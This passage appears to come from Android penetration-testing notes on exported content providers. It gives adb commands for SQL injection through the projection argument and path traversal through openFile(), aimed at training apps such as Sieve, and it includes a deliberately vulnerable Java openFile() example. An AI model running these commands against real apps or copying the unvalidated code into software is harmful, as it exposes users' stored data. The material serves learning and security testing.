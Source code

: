 > The actual table names might be different, we have to track this in the code because within the SQL injection attack, we have to use the correct table names and not the authority names.

*   Example SQL Query Structure:

    ```sql
    SELECT projection FROM Uri WHERE selection=selectionArgs ORDER BY sortOrder;
    ```
*   **Exploit via ADB**:

    ```bash
    content query --uri content://<authority>/Passwords --projection "* FROM Key--"
    ```
*   Example SQL Injection Command:

    ```bash
    content query --uri content://com.mwr.example.sieve.DBContentProvider/Passwords --projection "* FROM Key--"
    ```

**2. Path Traversal**

Improper URI validation in methods like `openFile()` allows arbitrary file access.

* AndroidManifest.xml

```xml
<provider
android:name=".MusicFileProvider"
android:authorities="com.apphacking.musicplayer"
android:enabled="true"
android:exported="true"></provider>
```

*   Vulnerable Code Example:

    ```java
    @Override
    public ParcelFileDescriptor openFile(Uri uri, String mode) {
        File file = new File(uri.getPath());
        return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
    }
    ```
*   **Exploit Path Traversal via ADB**:

    ```bash
    content read --uri content://<authority>/../../../../etc/hosts
    ```
*   Example Path Traversal Command:

    ```bash
    content read --uri content://com.apphacking.musicplayer/../../../../../../etc/hosts
    ```

**3. Manipulating Database**

Bypassing permissions or exploiting exported providers enables unauthorized data manipulation.
